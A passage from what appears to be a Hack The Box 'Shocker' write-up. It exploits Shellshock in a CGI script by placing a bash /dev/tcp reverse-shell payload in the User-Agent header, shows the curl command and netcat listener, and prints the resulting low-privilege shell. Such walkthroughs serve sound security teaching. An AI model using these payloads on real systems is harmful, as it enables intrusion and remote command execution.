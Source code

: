 It simply is a script that shows the uptime of the system.

We could also view this response in `Burp Suite` by using `GET /cgi-bin/user.sh` for the GET request.

<p align="center">
  <img src="{{ site.github.url }}/images/htb/shocker/image-20210614115510696.png" />
</p>

Now all we need to do is simply change the `User-Agent` HTTP Header by having the Shellshock payload instead of Mozilla/5.0..... So `User-Agent` should look something like this: 

```
User-Agent: () { :;};[CMD]
```

[CMD] is where you are going to put your command you want to run on the host. Looking at [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) for `Bash TCP reverse shells,` we are going to use `/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1` where you are going to change `10.0.0.1` to your IP address. So now my `User-Agent` HTTP header looks like the following:

```
User-Agent: () { :;};/bin/bash -l > /dev/tcp/10.10.14.36/4242 0<&1 2>&1
```

Before you send this request, have a Netcat listener running on port 4242. 

```
nc -lvnp 4242
```

Something to keep in mind is that you can send this request through `Burp Suite` (probably the easiest way in my opinion), or you can use things like `curl` too. For `Burp Suite`, just change the `User-Agent` HTTP header to what was shown before, if you are using curl you could use the following command:

```
curl -A "() { :;};/bin/bash -l > /dev/tcp/10.10.14.36/4242 0<&1 2>&1" http://10.10.10.56/cgi-bin/user.sh
```

The `-A` flag specifies what you want to input for the `User-Agent` HTTP header. After running this command, we can see we got a connection from `10.10.10.56` and have a low privilege shell as the user shelly.

```
root@kali-[~]nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.56] 42914
whoami && id
shelly
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

## Privilege Escalation
